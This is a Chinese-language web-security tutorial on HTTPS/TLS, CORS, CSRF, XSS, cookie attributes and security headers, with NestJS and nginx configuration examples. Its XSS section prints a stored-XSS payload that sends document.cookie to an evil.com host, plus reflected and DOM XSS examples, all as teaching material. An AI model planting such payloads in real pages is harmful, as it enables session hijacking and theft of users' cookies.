





# 传输安全

## 本篇导读

### 核心目标

学完本篇后，你将能够：

- 深入理解 HTTPS/TLS 的握手过程，以及它如何同时保证机密性、完整性和身份认证
- 掌握 CORS 的工作机制，区分"简单请求"与"预检请求"，配置正确的跨域策略
- 理解 CSRF 攻击的原理与防御方案（SameSite Cookie、CSRF Token、双重 Cookie 验证）
- 掌握 XSS 的三种类型及其防御手段（输入校验、输出编码、CSP）
- 正确配置 Cookie 的安全属性，避免常见的 Session 劫持漏洞
- 理解并配置关键安全响应头，构建纵深防御体系

### 重点与难点

**重点**：

- TLS 握手的四个阶段：为什么握手结束后后续数据能被加密？密钥从哪里来？
- CORS 为什么"保护"的是服务器，而不是浏览器？预检请求的作用到底是什么？
- CSRF 和 XSS 的防御为什么不能互相替代？各自针对什么攻击向量？

**难点**：

- SameSite=Lax vs SameSite=Strict vs SameSite=None 的实际应用区别
- CSP（内容安全策略）策略字符串的语法和常见配置误区
- 前后端分离架构下，CORS + CSRF 的联合防御策略如何设计

## 一个比喻：快递系统的安全层

把互联网通信想象成一个快递系统：

**没有 HTTPS（裸 HTTP）**：快递是透明盒子，快递员（中间路由器）可以看到里面的每一件东西；任何人都可以假装是发件人。

**HTTPS（TLS 加密）**：快递变成了加密的保险箱。只有真正的收件人有钥匙，快递员只能看到箱子外面的收件地址，看不到内容；并且收件人能验证发件人的真实身份。

**CORS**：快递站的规则——某些来源发来的某些类型的快递，邮局会给转发；但如果来自陌生地址的快递要拿走重要物品，邮局会先打电话确认（预检请求）。

**CSRF**：有人伪装成你，趁你不注意，以你的名义向邮局发了一个"转账申请"（危险请求）。如果邮局只凭身份识别（Cookie）而不验证是不是你本人提交的表单，就会上当。

**XSS**：有人在你的快递盒子里偷偷放了一个窃听器（恶意脚本）。当你打开盒子（渲染 HTML），窃听器被激活，它可以监听你的一切行为。

## 核心概念讲解

### HTTPS 与 TLS

#### HTTP 的致命弱点

HTTP（HyperText Transfer Protocol）以明文传输数据。这意味着在你的浏览器和服务器之间的任何一条网络线路上，数据都可以被：

- **窃听**：你的 ISP（网络运营商）、咖啡店 WiFi 的管理员、网络上任何中间路由器，都可以看到完整的 HTTP 请求和响应，包括登录密码和 Cookie。
- **篡改**：中间人可以修改响应内容，比如在页面中注入广告、替换下载文件、修改转账金额。
- **伪造**：没有办法验证你连接的服务器是否是真正的目标服务器，攻击者可以假冒服务器（中间人攻击）。

一个典型的攻击场景：你在咖啡店连接公共 WiFi，WiFi 背后的设备执行 ARP 欺骗，所有流量都经过攻击者的设备。如果你访问的是 HTTP 网站，攻击者能看到你发送的每一个字节，并可以修改响应。

#### TLS 如何解决这三个问题

TLS（Transport Layer Security）在 TCP 连接之上增加了一个安全层，解决了以上三个问题：

| 问题 | TLS 的解决方案                                                     |
| ---- | ------------------------------------------------------------------ |
| 窃听 | **对称加密**数据（如 AES-256-GCM），中间人只能看到密文             |
| 篡改 | **消息认证码（MAC）**确保数据完整性，任何篡改都会被检测到          |
| 伪造 | **数字证书**（由受信任的证书颁发机构 CA 签名），验证服务器真实身份 |

#### TLS 握手过程详解

TLS 握手是连接建立阶段的"协商"过程，在传输任何应用数据之前完成。以 TLS 1.3（当前最新版本）为例：



**关键技术：ECDHE 密钥交换**

TLS 1.3 使用椭圆曲线迪菲-赫尔曼（ECDHE）算法进行密钥交换，其核心优点是**前向保密（Forward Secrecy）**：

- 每次 TLS 连接都生成一套临时的 DH 密钥对
- 会话结束后临时密钥立即销毁
- 即使攻击者记录了你今天的所有流量，并在未来某天破解了服务器的私钥，也无法解密今天的历史流量

这与旧算法（RSA 密钥交换）形成对比：RSA 直接用服务器长期私钥解密会话密钥，一旦私钥泄露，所有历史流量都可被解密。

**数字证书：身份的信任链**

数字证书解决了"我怎么知道这个服务器真的是 example.com"的问题：



浏览器内置了全球约 100 个根 CA 的公钥。验证过程：

1. 服务器发送证书（含证书链）
2. 浏览器从叶证书开始，用上级 CA 的公钥验证签名，一级一级往上
3. 直到找到内置的受信任根 CA
4. 验证证书上的域名与你访问的域名是否一致
5. 验证证书是否在有效期内，是否被吊销

#### 实际配置要点

**HTTP 强制跳转 HTTPS**

```typescript
// NestJS 中使用中间件强制 HTTPS
@Injectable()
export class HttpsRedirectMiddleware implements NestMiddleware {
  use(req: Request, res: Response, next: NextFunction) {
    // 注意：在 nginx/load balancer 代理后，需要检查 X-Forwarded-Proto
    const proto = req.headers['x-forwarded-proto'] || req.protocol;
    if (proto !== 'https') {
      return res.redirect(301, `https://${req.hostname}${req.url}`);
    }
    next();
  }
}
```

更推荐在 Nginx 层面处理重定向：

```nginx
server {
    listen 80;
    server_name example.com;
    # 永久重定向到 HTTPS
    return 301 https://$host$request_uri;
}
```

**HSTS（HTTP Strict Transport Security）**

HSTS 告诉浏览器：在指定时间内，所有对该域名的请求必须使用 HTTPS，即使用户手动输入 `http://`：

```plaintext
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

- `max-age=31536000`：一年内浏览器记住这条规则
- `includeSubDomains`：子域名也强制 HTTPS
- `preload`：提交到浏览器预加载列表，即使第一次访问也走 HTTPS（防止首次访问时的降级攻击）

**重要**：在确定全站支持 HTTPS 之前，不要轻易设置 HSTS，否则用户在 max-age 期内将无法访问 HTTP 版本。

### CORS：跨域资源共享

#### 同源策略：浏览器的安全基石

浏览器实施**同源策略（Same-Origin Policy）**：一个源的 JavaScript 代码只能访问相同源的资源，不能随意读取其他源的内容。

"同源"的判断标准是协议、域名、端口三者完全相同：

```plaintext
https://app.example.com:443  ← 基准源

https://app.example.com:443/api/v1     → ✅ 同源（路径不同不影响）
https://api.example.com:443            → ❌ 跨域（子域名不同）
http://app.example.com:443             → ❌ 跨域（协议不同）
https://app.example.com:8080           → ❌ 跨域（端口不同）
```

同源策略阻止的是 JavaScript **读取**跨域响应，而不是阻止请求的发出。这个区别很重要，后面讲 CSRF 时会用到。

#### CORS 的作用：让服务器选择性地开放权限

CORS（Cross-Origin Resource Sharing）是一种机制，允许服务器通过 HTTP 响应头告诉浏览器："我允许来自 X 源的 JavaScript 读取我的响应"。

**简单请求 vs 预检请求**

CORS 把请求分为两类：

**简单请求**（直接发送，不触发预检）：

- 方法：GET、POST、HEAD
- Content-Type：只能是 `text/plain`、`multipart/form-data`、`application/x-www-form-urlencoded`
- 不包含自定义请求头

**预检请求**（先发 OPTIONS，再发实际请求）：

- 方法：PUT、DELETE、PATCH
- Content-Type：`application/json`（实际开发中最常见）
- 包含自定义请求头（如 `Authorization`）



`Access-Control-Max-Age: 86400` 告诉浏览器，这次预检结果缓存 24 小时，同样的请求在这段时间内无需再次预检，减少额外往返。

#### 在 NestJS 中配置 CORS

```typescript
// main.ts
async function bootstrap() {
  const app = await NestFactory.create(AppModule);

  // 生产环境：显式指定允许的源，不要使用 origin: '*'
  app.enableCors({
    origin: (origin, callback) => {
      const allowedOrigins = [
        'https://app.example.com',
        'https://admin.example.com',
      ];

      // 允许来自允许列表的源，以及服务端渲染的直接请求（无 origin）
      if (!origin || allowedOrigins.includes(origin)) {
        callback(null, true);
      } else {
        callback(new Error(`CORS: Origin ${origin} not allowed`));
      }
    },
    methods: ['GET', 'POST', 'PUT', 'PATCH', 'DELETE', 'OPTIONS'],
    allowedHeaders: ['Content-Type', 'Authorization'],
    credentials: true, // 允许携带 Cookie
    maxAge: 86400, // 预检结果缓存 24 小时
  });
}
```

**`credentials: true` 的特殊规则**

当请求需要携带 Cookie（`withCredentials: true`）时：

- 服务器必须显式设置 `Access-Control-Allow-Credentials: true`
- `Access-Control-Allow-Origin` **不能是通配符** `*`，必须是具体的源
- 忽略这个规则会导致浏览器拒绝将响应暴露给 JavaScript，即使 Cookie 已经发出

#### CORS 的常见误解

**误解：CORS 能防止跨域请求被发出**

CORS 只阻止浏览器 JavaScript **读取**跨域响应，并不阻止请求被发出。服务器实际上会收到并处理这个请求，浏览器只是不会把响应告诉给 JavaScript。

这意味着：CORS 无法防止 CSRF 攻击（下一节详细讲解）。CORS 是为了控制**数据读取**权限，不是为了控制**操作执行**权限。

**误解：`Access-Control-Allow-Origin: *` 很方便，开发时先用着**

在开发环境中设为 `*` 是可以的，但必须在生产前改成具体的白名单。`*` 存在的问题：

1. 任何网站的 JavaScript 都可以读取你的 API 响应
2. 无法与 `credentials: true` 同时使用
3. 一旦 API 端点泄露敏感信息，`*` 的配置会让攻击者轻松获取

### CSRF：跨站请求伪造

#### 攻击原理：借刀杀人

CSRF（Cross-Site Request Forgery）是一种利用用户已有认证态的攻击：攻击者诱骗已登录的用户访问恶意页面，恶意页面在用户不知情的情况下，以用户的名义向目标网站发送请求。

**攻击场景**：

1. 用户登录了网银（`bank.example.com`），浏览器存有 Session Cookie
2. 用户同时打开了恶意网站（`evil.com`），恶意网站的 HTML 中有：

```html
<!-- evil.com 的页面 -->

```

3. 浏览器加载这张"图片"时，会自动附带 `bank.example.com` 的 Cookie，向银行接口发起转账请求
4. 银行服务器收到带有合法 Cookie 的请求，认为是用户本人操作，执行了转账

**关键点**：CSRF 攻击不需要窃取用户的 Cookie（那是 XSS 的工作），它只需要"借用" Cookie 随请求自动发送的特性。



#### 防御方案一：SameSite Cookie 属性（现代首选）

SameSite 是设置在 Cookie 上的属性，控制 Cookie 在跨站请求中的发送行为：

| SameSite 值 | 跨站 GET/链接跳转 | 跨站 POST/AJAX | 同站请求 | 适用场景                            |
| ----------- | ----------------- | -------------- | -------- | ----------------------------------- |
| `Strict`    | ❌ 不发送         | ❌ 不发送      | ✅ 发送  | 高安全要求（银行、后台）            |
| `Lax`       | ✅ 发送           | ❌ 不发送      | ✅ 发送  | 大多数 Web 应用的推荐值（默认值）   |
| `None`      | ✅ 发送           | ✅ 发送        | ✅ 发送  | 嵌入第三方、跨域 SSO（必须 Secure） |

**SameSite=Lax 为什么是默认推荐？**

- `Strict` 的问题：用户从邮件链接点击登录页，因为来自外部链接，Session Cookie 不会发送，用户会看到登录界面而不是已登录状态，体验很差。
- `Lax` 的平衡：允许顶层导航（链接跳转）携带 Cookie，但阻止跨站 POST 等请求。这覆盖了绝大多数 CSRF 攻击场景（攻击者通常用 form POST 或 AJAX）。

**SameSite=None 的强制条件**

如果你的 SSO 系统需要跨域携带 Cookie（如在 iframe 中嵌入登录页，或跨域 OIDC 重定向），必须同时设置 `SameSite=None` 和 `Secure` 属性：

```typescript
// NestJS 中设置 Cookie
res.cookie('session_id', sessionId, {
  httpOnly: true,
  secure: true, // 仅 HTTPS 下发送
  sameSite: 'none', // 允许跨站发送
  path: '/',
  maxAge: 60 * 60 * 24 * 7 * 1000, // 7 天
});
```

#### 防御方案二：CSRF Token

对于不支持 SameSite 的老浏览器，或需要额外防御层的场景，使用 CSRF Token：

**工作原理**：

1. 服务器为每个用户 Session 生成一个随机 Token，并嵌入到前端页面（通过 Cookie 或响应头）
2. 前端每次发起"写"操作请求时，将这个 Token 附带在请求头（`X-CSRF-Token`）或请求体中
3. 服务器验证请求中的 Token 与 Session 中存储的是否一致

**为什么这能防住 CSRF？**

攻击者可以让浏览器自动发送 Cookie，但没有办法读取目标网站的 Cookie 或响应内容（同源策略），因此无法获取 CSRF Token 的值，也就无法在恶意请求中带上正确的 Token。

**双重 Cookie 验证（Double Submit Cookie）**

一种不需要服务端存储 Token 的轻量方案：

1. 服务器在响应时设置一个非 HttpOnly 的 CSRF Cookie（可以被 JS 读取）
2. 前端每次请求时，用 JS 读取这个 Cookie，并将值同时放入请求头
3. 服务器比对请求头中的值是否与 Cookie 值一致

攻击者可以让浏览器发送 Cookie，但由于同源策略无法读取 Cookie 的值，也就无法把正确的值放进请求头——比对失败，请求被拒绝。

```typescript
// NestJS 中实现双重 Cookie 验证
@Injectable()
export class CsrfMiddleware implements NestMiddleware {
  use(req: Request, res: Response, next: NextFunction) {
    const safeMethods = ['GET', 'HEAD', 'OPTIONS'];

    if (safeMethods.includes(req.method)) {
      return next();
    }

    const cookieToken = req.cookies['csrf-token'];
    const headerToken = req.headers['x-csrf-token'];

    if (!cookieToken || cookieToken !== headerToken) {
      return res.status(403).json({ message: 'CSRF verification failed' });
    }

    next();
  }
}
```

#### CORS 与 CSRF 的协同防御

理解两者的关系非常重要：

| 攻击场景                      | CORS 能防住？ | SameSite 能防住？ |
| ----------------------------- | ------------- | ----------------- |
| 恶意脚本读取你的 API 响应数据 | ✅ 能         | ❌ 不管           |
| 恶意表单自动提交执行操作      | ❌ 不能       | ✅ 能             |
| 恶意 AJAX 执行操作+读取结果   | ✅ 能（读）   | ✅ 能（执行）     |

正确做法：CORS + SameSite Cookie 组合使用，各自防御不同的攻击向量。

### XSS：跨站脚本攻击

XSS（Cross-Site Scripting）是指攻击者将恶意 JavaScript 代码注入到你的网页，当其他用户浏览该页面时，恶意脚本在其浏览器环境中执行，可以读取 Cookie、劫持 Session、替换页面内容、发起钓鱼攻击等。

#### 三种 XSS 类型

**存储型 XSS（最危险）**

恶意脚本被持久化存储在服务器端（数据库），每次受害者加载页面都会执行。

```plaintext
攻击者提交评论：<script>document.location='https://evil.com/steal?c='+document.cookie</script>

评论被存入数据库 → 其他用户加载评论页面 → 脚本执行 → Cookie 被发送给攻击者
```

**反射型 XSS**

恶意脚本在 URL 参数中，服务器将参数内容原样反射到响应 HTML 中。需要诱骗受害者点击特制链接。

```plaintext
https://example.com/search?q=<script>alert(document.cookie)</script>

服务器响应：<p>搜索结果：<script>alert(document.cookie)</script></p>
```

**DOM 型 XSS**

恶意脚本在 URL 的 `#fragment` 部分（不发到服务器），通过前端 JavaScript 操作 DOM 时不加校验地使用了这个值。

```javascript
// 危险的前端代码
const search = window.location.hash.slice(1); // 取 # 后面的内容
document.querySelector('#result').innerHTML = search; // ❌ 直接插入 HTML
```

#### XSS 防御的核心原则

**原则一：永远不信任用户输入，在输出时进行编码**

根据输出位置选择不同的编码方式：

```typescript
// ❌ 危险：直接拼接 HTML
const html = `<div>${userInput}</div>`;

// ✅ 安全：HTML 实体编码，将 < > & " ' 等字符转义
function escapeHtml(str: string): string {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
}

// 不同上下文需要不同的编码
// HTML 属性：encodeForHTMLAttribute()
// JavaScript 上下文：encodeForJavaScript()
// URL 参数：encodeURIComponent()
// CSS 值：encodeForCSS()
```

在 React、Vue、Angular 等现代框架中，默认会对插值进行 HTML 编码，但要注意"危险"的 API：

```jsx
// ❌ 危险：dangerouslySetInnerHTML 会原样插入 HTML
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ✅ 安全：React 会自动编码
<div>{userInput}</div>
```

**原则二：输入验证**

在服务端对用户输入进行白名单校验，拒绝不符合格式的数据：

```typescript
// 使用 Zod 进行输入校验
import { z } from 'zod/v4';

const commentSchema = z.object({
  content: z
    .string()
    .max(2000, '评论最多 2000 字')
    .refine(
      (content) => !/<script|javascript:|on\w+\s*=/i.test(content),
      '评论内容包含非法字符'
    ),
});
```

**注意**：输入验证作为第一道防线，但不能替代输出编码。攻击者可能通过各种编码绕过输入过滤，输出编码才是根本性的防御。

**原则三：内容安全策略（CSP）**

CSP 是一个响应头，告诉浏览器该页面只能加载来自哪些来源的资源、执行哪些类型的脚本，从而将 XSS 的危害降到最低：

```plaintext
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://trusted-cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

CSP 指令说明：

| 指令              | 含义                                              |
| ----------------- | ------------------------------------------------- |
| `default-src`     | 默认来源策略（其他指令的兜底）                    |
| `script-src`      | JavaScript 的允许来源                             |
| `style-src`       | CSS 的允许来源                                    |
| `img-src`         | 图片的允许来源                                    |
| `connect-src`     | AJAX/fetch/WebSocket 的允许目标                   |
| `frame-ancestors` | 控制哪些页面可以将本页面嵌入 iframe（防点击劫持） |
| `base-uri`        | 限制 `<base>` 标签的 href（防止劫持相对 URL）     |
| `form-action`     | 限制表单的提交目标                                |

**CSP 中的 nonce 机制**

为了在禁用 `inline script` 的同时允许特定的内敛脚本（如服务端渲染注入的数据），可以使用 nonce：

```typescript
// 每次请求生成一个随机 nonce
import * as crypto from 'crypto';

const nonce = crypto.randomBytes(16).toString('base64');

// 响应头
res.setHeader(
  'Content-Security-Policy',
  `script-src 'nonce-${nonce}' 'strict-dynamic'`
);

// HTML 中
// <script nonce="${nonce}">这段内联脚本是被允许的</script>
```

攻击者注入的脚本没有正确的 nonce，即使 script 标签被插入页面也不会被执行。

#### HttpOnly Cookie：XSS 的最后防线

如果 XSS 攻击成功执行了代码，攻击者最常见的目标是窃取 Session Cookie。`HttpOnly` 属性可以阻止 JavaScript 操作 Cookie：

```typescript
res.cookie('session_id', sessionId, {
  httpOnly: true, // JavaScript 无法通过 document.cookie 读取此 Cookie
  secure: true,
  sameSite: 'lax',
});
```

即使 XSS 攻击执行了 `document.cookie`，也看不到带有 `HttpOnly` 属性的 Cookie。这不能防止 XSS 本身，但能防止 Session 劫持这一最严重的后果。

### Cookie 安全属性全解析

Cookie 是 Web 认证的核心载体，其安全属性配置直接决定了 Session 和 Token 的安全性。



**各属性详解**

| 属性              | 作用                                                        | 建议                                  |
| ----------------- | ----------------------------------------------------------- | ------------------------------------- |
| `Secure`          | Cookie 只在 HTTPS 连接中发送，HTTP 请求不携带该 Cookie      | 生产环境必须开启                      |
| `HttpOnly`        | JavaScript 无法通过 `document.cookie` 读取该 Cookie         | Session/Token Cookie 必须开启         |
| `SameSite=Lax`    | Cookie 不随跨站 POST 请求发送，只随顶层导航（链接点击）发送 | 大多数情况的推荐值                    |
| `SameSite=Strict` | Cookie 完全不随跨站请求发送                                 | 后台管理系统、高安全要求场景          |
| `SameSite=None`   | Cookie 随所有跨站请求发送，必须同时设置 `Secure`            | 跨域嵌入场景，必须配合 `Secure`       |
| `Domain`          | 指定 Cookie 的作用域名，`example.com` 包含所有子域名       | 生产中明确指定，现代浏览器忽略前导点 |
| `Path`            | Cookie 只在指定路径下发送，默认 `/`                         | 精确控制时使用，如 `/api`             |
| `MaxAge`          | Cookie 最大存活时间（秒），0 表示立即删除                   | 设置合理过期时间，避免永不过期        |
| `Expires`         | Cookie 的绝对过期时间（UTC 日期字符串）                     | 推荐用 MaxAge，避免服务器客户端时间差 |

**完整的安全 Cookie 配置示例**

```typescript
// NestJS 登录成功后设置 Session Cookie
res.cookie('session_id', sessionId, {
  httpOnly: true, // 防止 XSS 窃取
  secure: true, // 仅 HTTPS
  sameSite: 'lax', // 防止 CSRF
  path: '/', // 全站生效
  domain: 'example.com', // 主域和所有子域（现代浏览器忽略前导点）
  maxAge: 7 * 24 * 60 * 60 * 1000, // 7 天（毫秒）
});
```

**会话 Cookie vs 持久化 Cookie**

- **会话 Cookie**（不设置 `MaxAge`/`Expires`）：浏览器关闭后自动删除。适合公共设备、高安全场景。
- **持久化 Cookie**（设置 `MaxAge`）：关闭浏览器后保留，在 `MaxAge` 到期前有效。适合"记住我"功能。

注意：会话 Cookie 并不代表不能被窃取。如果服务器不设置 `Secure`，在 HTTP 上传输时仍然暴露。

### 安全响应头

安全响应头是一种纵深防御机制，通过 HTTP 响应头指示浏览器的安全行为，即使代码存在漏洞，也能减小攻击的影响面。

#### 关键安全响应头一览

**X-Content-Type-Options**

```plaintext
X-Content-Type-Options: nosniff
```

阻止浏览器对响应内容进行 MIME 类型嗅探（Content-Type Sniffing）。没有这个头，浏览器可能将 `text/plain` 响应当成 `text/html` 或 `text/javascript` 执行。

**X-Frame-Options**

```plaintext
X-Frame-Options: DENY
```

阻止页面被嵌入 `<iframe>`，防止点击劫持（Clickjacking）攻击。现代做法是用 CSP 的 `frame-ancestors` 指令替代，更灵活：

```plaintext
Content-Security-Policy: frame-ancestors 'none';
```

**Referrer-Policy**

```plaintext
Referrer-Policy: strict-origin-when-cross-origin
```

控制请求中 `Referer` 头的内容，防止 URL 中的敏感信息（如 Token、路径参数）泄露给第三方：

| 值                                | 行为                                                                 |
| --------------------------------- | -------------------------------------------------------------------- |
| `no-referrer`                     | 不发送 Referer                                                       |
| `strict-origin-when-cross-origin` | 同源：完整 URL；跨域：只发送源（协议+域名）；降级 HTTPS→HTTP：不发送 |
| `unsafe-url`                      | 始终发送完整 URL（不推荐）                                           |

**Permissions-Policy**

```plaintext
Permissions-Policy: camera=(), microphone=(), geolocation=()
```

限制页面访问浏览器功能（摄像头、麦克风、地理位置等），防止恶意脚本滥用这些权限。

#### 在 NestJS 中集中配置安全响应头

推荐使用 `helmet` 库自动设置常见的安全响应头：

```typescript
// main.ts
import helmet from 'helmet';

async function bootstrap() {
  const app = await NestFactory.create(AppModule);

  app.use(
    helmet({
      // HSTS：强制 HTTPS，一年内生效
      hsts: {
        maxAge: 31536000,
        includeSubDomains: true,
        preload: true,
      },
      // CSP：根据应用需求定制
      contentSecurityPolicy: {
        directives: {
          defaultSrc: ["'self'"],
          scriptSrc: ["'self'"],
          styleSrc: ["'self'", "'unsafe-inline'"],
          imgSrc: ["'self'", 'data:', 'https:'],
          connectSrc: ["'self'"],
          fontSrc: ["'self'"],
          objectSrc: ["'none'"],
          mediaSrc: ["'self'"],
          frameSrc: ["'none'"],
        },
      },
      // 防点击劫持
      frameguard: { action: 'deny' },
      // 防 MIME 嗅探
      noSniff: true,
      // Referrer 策略
      referrerPolicy: { policy: 'strict-origin-when-cross-origin' },
      // 不暴露服务器信息
      hidePoweredBy: true,
    })
  );
}
```

#### 安全响应头的合理预期

安全响应头是**纵深防御**，不是银弹：

